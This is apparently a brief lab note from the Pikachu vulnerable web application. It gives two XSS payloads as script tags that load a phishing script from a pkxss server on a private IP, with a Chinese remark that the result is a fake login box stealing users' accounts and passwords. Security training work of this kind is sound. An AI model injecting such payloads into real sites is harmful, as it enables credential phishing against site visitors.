 <script src="http://192.168.1.254/pkxss/xfish/fish.php"></script>
<script src="http://192.168.1.254/pikachu/pkxss/xfish/fish.php"></script>
就是弹出一个登录框
盗取用户的账号和密码

https://www.cnblogs.com/li2019/p/12650512.html
